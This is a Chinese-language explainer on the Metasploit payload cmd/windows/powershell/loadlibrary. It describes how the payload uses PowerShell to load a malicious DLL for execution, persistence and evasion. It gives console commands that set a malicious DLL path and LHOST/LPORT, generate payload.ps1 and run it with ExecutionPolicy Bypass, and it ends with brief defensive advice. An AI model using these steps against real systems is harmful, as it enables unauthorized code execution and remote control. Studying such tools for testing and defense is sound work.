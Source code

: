 `cmd/windows/powershell/loadlibrary` 是 Metasploit 框架中的一种 payload，利用 PowerShell 脚本在 Windows 系统上加载并执行动态链接库（DLL）。这个 payload 使用 `LoadLibrary` 函数来加载指定的 DLL 文件，并调用其中的函数，从而实现恶意代码的执行。

### `loadlibrary` 详解

1. **概念**：
   - **PowerShell**：PowerShell 是 Windows 操作系统中的一个任务自动化和配置管理框架，由命令行外壳和脚本语言组成。
   - **LoadLibrary**：`LoadLibrary` 是 Windows API 中的一个函数，用于将指定的 DLL 加载到调用进程的地址空间中。
   - **DLL（动态链接库）**：DLL 是包含可由多个程序同时使用的代码和数据的文件。Windows 应用程序可以在运行时动态加载 DLL 并调用其导出函数。

2. **工作原理**：
   - `cmd/windows/powershell/loadlibrary` payload 生成一个 PowerShell 脚本，该脚本利用 `LoadLibrary` 函数来加载恶意 DLL 文件。
   - 一旦加载，脚本会调用 DLL 中的特定函数，从而执行其中包含的恶意代码。

3. **用途**：
   - **恶意代码执行**：通过加载和执行恶意 DLL，实现代码注入和远程控制。
   - **持久化**：将恶意 DLL 注册为系统服务或启动项，确保系统重启后恶意代码仍然能够执行。
   - **隐藏性**：使用合法的 PowerShell 脚本和 DLL 文件进行攻击，可以绕过一些安全检测机制。

### 使用 `loadlibrary` 的步骤

1. **生成 PowerShell 脚本**：
   在 Metasploit 控制台中加载 `cmd/windows/powershell/loadlibrary` payload，并设置必要的参数：
   ```sh
   use payload/cmd/windows/powershell/loadlibrary
   set DLLPATH <path_to_malicious_dll>
   ```

2. **设置选项**：
   配置目标参数，如目标 IP 地址、端口等（根据具体情况）：
   ```sh
   set LHOST <your_ip>
   set LPORT <your_port>
   ```

3. **生成和传输脚本**：
   生成包含恶意 DLL 加载命令的 PowerShell 脚本：
   ```sh
   generate -f ps1 -o payload.ps1
   ```
   将生成的 PowerShell 脚本传输到目标系统。

4. **执行 PowerShell 脚本**：
   在目标系统上执行传输的 PowerShell 脚本，加载并执行恶意 DLL 文件。

### 示例

以下是使用 `cmd/windows/powershell/loadlibrary` payload 的一般步骤：

1. **配置 Metasploit**：
   ```sh
   use payload/cmd/windows/powershell/loadlibrary
   set DLLPATH C:\path\to\malicious.dll
   set LHOST 192.168.1.200
   set LPORT 4444
   ```

2. **生成 PowerShell 脚本**：
   ```sh
   generate -f ps1 -o payload.ps1
   ```

3. **传输和执行脚本**：
   将生成的 PowerShell 脚本传输到目标系统，并在 PowerShell 中执行：
   ```sh
   powershell -ExecutionPolicy Bypass -File payload.ps1
   ```

### 安全注意事项

- **检测和防御**：管理员可以通过监控 PowerShell 脚本执行、使用应用白名单和限制 PowerShell 执行策略来防止此类攻击。
- **权限控制**：限制用户权限，防止未经授权的 DLL 加载和代码执行。
- **审计和日志**：启用详细的审计和日志记录，监控系统中异常的 DLL 加载和 PowerShell 活动。

### 总结

`cmd/windows/powershell/loadlibrary` 是一种利用 PowerShell 脚本在 Windows 系统上加载并执行恶意 DLL 的 Metasploit payload。它通过生成和执行包含 `LoadLibrary` 函数调用的 PowerShell 脚本，实现恶意代码的加载和执行。这种技术可以用于远程控制、持久化和隐藏性攻击。为了防御此类攻击，管理员应加强权限控制、监控 PowerShell 活动并使用应用白名单。